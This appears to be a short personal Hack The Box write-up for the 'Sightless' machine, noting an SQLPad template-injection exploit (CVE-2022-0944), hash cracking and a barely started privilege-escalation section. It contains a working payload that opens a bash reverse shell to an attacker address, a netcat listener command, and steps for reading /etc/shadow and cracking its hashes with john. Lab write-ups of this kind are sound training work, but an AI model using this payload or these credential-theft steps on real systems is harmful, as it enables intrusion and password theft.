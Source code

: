 
2024-11-02 11:18

Source:  #htb #privesc #Boot2root 

Tags: [[browser]]
### Foothold

The target system has only three open ports: 21 (ftp), 22 (ssh), and 80 (http)
port 80 has a website and the website offers some services. Among the available services, there’s a redirection to `sqlpad.sightless.htb`. To access this service, ensure that you add the domain `sqlpad.sightless.htb` to your hosts file.
### Exploit

The installed version of SQLPad, identified as 6.10.0, can be found via BurpSuite or by clicking `info` on the top right hand of the screen. While analyzing the vulnerabilities in this version, it was discovered that it is affected by CVE-2022-0944. ([Link](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb))

Manual method for the exploit is as follows- 
- set up a listener by using `nc -lvnp 9000`
	1. **Click on “Connection”**
	2. **Create a New Connection**
	3. **Choose MySQL as the Database**
	4. **Enter the Payload or credentials into the Database**
	5. **Test the Connection** to ensure the configuration is correct and the connection is successful.

**Payload**  - 
```
{{ process.mainModule.require(‘child_process’).exec(‘bash -c “bash -i >& /dev/tcp/10.10.14.9/9001 0>&1”’) }}
```
if this doesn't work refer [this post](https://www.reddit.com/r/hackthebox/comments/1fiba4r/stuck_on_sightless_box/)

This CVE also has a prebuilt exploit that can be found in the References section 
### User Flag

Upon further examination, I discovered that the `.dockerenv` file is indeed present, confirming the application is running within a Docker container. Additionally, after inspecting the system’s users, I identified two accounts: one belonging to “michael” and another to “node.”

access the `/etc/shadow` file and we see hashes of michael user 
copy the hash completely in a file named `hash` and use john to crack it 
```sh
john hash -w=/usr/share/wordlists/rockyou.txt
```
### Priv esc







get linpeas in your system via wget 
[[File transfer]]


jabhi wget use kar raha hai file transfer ke liye toh apne kali mei hi karna server shuru, windows mei nhi

### References
https://app.hackthebox.com/machines/624

Exploit - https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944

https://thecybersecguru.com/ctf-walkthroughs/mastering-sightless-beginners-guide-from-hackthebox/
[Hack The Box Sightless Writeup. Introduction | by Noob | Dec, 2024 | Medium](https://medium.com/@muaaz.ahmed23105/hack-the-box-sightless-writeup-c0a8dc6c8245)